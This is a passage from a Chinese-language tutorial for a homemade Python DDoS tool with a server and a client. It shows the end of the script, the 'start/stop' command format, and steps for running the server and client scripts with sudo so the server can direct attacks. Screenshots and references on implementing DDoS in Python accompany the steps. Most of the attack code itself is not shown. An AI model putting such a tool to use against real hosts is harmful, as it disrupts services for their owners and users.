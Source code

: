 ```python
        print('=' * 50)
        cmdHandle(s, p)
    except:
        print('The network connected failed!')
        print('Please restart the script!')
        sys.exit(0)

if __name__ == "__main__":
    main()

```

## 测试使用

首先，我们规定了命令格式为：```#-H xxx.xxx.xxx.xxx -p xxxx -c <start>```  
e.g. ```#-H 127.0.0.1 -p 8085 -c start```， ```
#-H 127.0.0.1 -p 8085 -c stop```  

首先执行server脚本，然后执行client脚本，等待连接，连接成功，即可在server端操控client进行攻击，示例如下：
1. 启动server
```
sudo python ddos_server_v0.1.py
```
2. 启动client
```
sudo python ddos_client_v0.1.py
```
3. 连接成功  
![连接成功](http://119.3.78.82:8085/uploads/big/a375724463afb7b4eae2b0550a05764f.png)

4. 进行攻击
![进行攻击](http://119.3.78.82:8085/uploads/big/6961dee0c77ba3b193f26447e4b7932f.png)

5. 停止攻击
![停止攻击](http://119.3.78.82:8085/uploads/big/b41516447d764d6b43914b984a656792.png)

## Reference
[1]Blog.csdn.net. (2019). 网络篇——七层协议、四层协议、TCP、HTTP、SOCKET、长短连接 - 袁伏彪 —— 共享，共赢 - CSDN博客. [online] Available at: https://blog.csdn.net/bjyfb/article/details/6682913 [Accessed 25 Oct. 2019].  
[2]Jb51.net. (2019). Python实现DDoS. [online] Available at: https://www.jb51.net/article/155870.htm [Accessed 25 Oct. 2019].  
[3]Blog.csdn.net. (2019). TCP包的类型 (SYN, FIN, ACK, PSH, RST, URG) - lqglqglqg的专栏 - CSDN博客. [online] Available at: https://blog.csdn.net/lqglqglqg/article/details/48714611 [Accessed 25 Oct. 2019].
